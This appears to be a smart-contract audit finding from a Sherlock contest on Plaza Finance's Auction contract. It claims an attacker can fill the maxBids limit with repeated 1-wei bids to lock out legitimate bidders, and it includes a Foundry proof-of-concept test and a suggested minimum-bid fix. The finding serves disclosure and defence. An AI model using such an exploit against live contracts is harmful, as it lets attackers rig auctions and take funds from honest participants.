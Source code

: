 Wide Cedar Orca

High

# Attacker can Win Any Auction with 1 wei

### Summary

There is no minimum amount of bid an auction starts with like in other auction where the bidding will start from $50M or 50 ETH. There is also a `maxBids` which checks the maximum number of bids that can be placed in an auction. An attacker knowing this, they can quickly place bids a low a 1 wei multiple times to reach the maxBids to win the audit. 

### Root Cause

There is no minimum amount that a first bidder must have in order to place a [bid](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L125-L171). This can allow an attacker place very low bid such as 1 wei multiple times to reach the [`maxBids`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L153-L158) which will prevent legitimate bidders from bidding or partaking in the auction.

### Internal Pre-conditions

1. The attacker should be able to place the first bid with 1 wei 
2. The attacker should be able submit multiple 1 wei bids to reach the `maxBids` limit

### External Pre-conditions

_No response_

### Attack Path

1. Place multiple bids in the auction with 1 wei at the beginning of the auction
2. Reach the `maxBids` limit

### Impact

1. Attacker wins the auction with 1 wei which is very much unfair
2. Legetimate bidders will not get the chance to participate in the auction 
3. Attacker can win every single auction as long as they the place the first bid

### PoC

```solidity
function testBidSuccessMultiBidsWithWei() public {
    address legetimateUser = address(0x123131);

    usdc.mint(bidder, 100 ether);
    usdc.mint(legetimateUser, 1000 ether);

    weth.mint(address(auction), 1000000000000 ether);

    uint256 slot = auction.slotSize();

    vm.startPrank(bidder);
    usdc.approve(address(auction), 40 ether);

    auction.bid(1, slot);

    auction.bid(1, slot);

    auction.bid(1, slot);

    auction.bid(1, slot);

    auction.bid(1, slot);
    vm.stopPrank();

    vm.startPrank(legetimateUser);
    usdc.approve(address(auction), 100 ether);
    vm.expectRevert();
    auction.bid(45 ether, slot);
    vm.stopPrank();

    vm.warp(block.timestamp + 15 days);
    vm.prank(pool);
    auction.endAuction();

    vm.prank(bidder);
    auction.claimBid(1);
  }
```


### Mitigation

Set a minimum amount the first bidder must place. 
